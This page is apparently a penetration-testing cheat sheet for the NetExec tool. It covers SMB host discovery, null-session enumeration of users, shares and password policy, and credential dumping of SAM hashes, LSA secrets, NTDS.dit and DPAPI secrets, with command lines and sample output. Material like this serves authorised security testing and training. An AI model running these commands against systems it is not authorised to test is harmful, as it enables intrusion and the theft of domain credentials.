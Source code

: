 # NetExec

{% hint style="info" %}
## Download & Install:

[https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)
{% endhint %}

The general format for using NetExec is as follows:

```bash
clue@machine[/]$ netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

## Map Network Hosts <a href="#map-network-hosts" id="map-network-hosts"></a>

Returns a list of live hosts

```bash
nxc smb 192.168.1.0/24
```

Expected Results:

```bash
SMB         192.168.1.101    445    DC2012A          [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC2012A) (domain:OCEAN) (signing:True) (SMBv1:True)
SMB         192.168.1.102    445    DC2012B          [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC2012B) (domain:EARTH) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:OCEAN) (signing:True) (SMBv1:True)
SMB         192.168.1.117    445    WIN10DESK1       [*] WIN10DESK1 x64 (name:WIN10DESK1) (domain:OCEAN) (signing:False) (SMBv1:True)
```

## Enumerate Null Sessions

Check if **Null Session**, also known as Anonymous session, is enabled on the network. Can be very useful on a Domain Controller to enumerate users, groups, password policies, etc.

```bash
nxc smb 10.10.10.161 -u '' -p ''
nxc smb 10.10.10.161 -u '' -p '' --shares
nxc smb 10.10.10.161 -u '' -p '' --pass-pol
nxc smb 10.10.10.161 -u '' -p '' --users
nxc smb 10.10.10.161 -u '' -p '' --groups
```

This can also be achieved with [smbclient.md](../information-gathering/smbclient.md "mention") or [rpcclient.md](../information-gathering/rpcclient.md "mention").

```bash
smbclient -N -U "" -L \\10.10.10.161
```

```bash
rpcclient -N -U "" -L \\10.10.10.161
rpcclient $> enumdomusers
user:[bonclay] rid:[0x46e]
user:[zoro] rid:[0x46f]
```

## Credential Dumping

### SAM Hashes Dump

Dumps SAM hashes from the target system after a successful login. You can use `smb` or `winrm` services.

```bash
nxc <smb|winrm> <target> -u <USERNAME> -p <PASSWORD> --sam
```

### LSA Secrets Dump

Dumps LSA secrets from the target system after a successful login. You can use `smb` or `winrm` services.

```bash
nxc <smb|winrm> <target> -u <USERNAME> -p <PASSWORD> --lsa
```

### NTDS File Dump

Dumps the NTDS.dit file from the target Domain Controller after a successful login. You can use either `vss` or `drsuapi` as the method (`drsuapi` is the default). Use the `--user` option to dump only a specific user.

```bash
nxc smb <target> -u <USERNAME> -p <PASSWORD> --ntds [vss,drsupai ]
```

### DPAPI Secrets Dump

Dumps DPAPI secrets from the target machine. You dump cookies with the `cookies` options or use the `nosystem` option not to dump the SYSTEM dpapi (better opsec).

```bash
nxc smb <target> -u <USERNAME> -p <PASSWORD> --dpapi [cookies,nosystem]
```
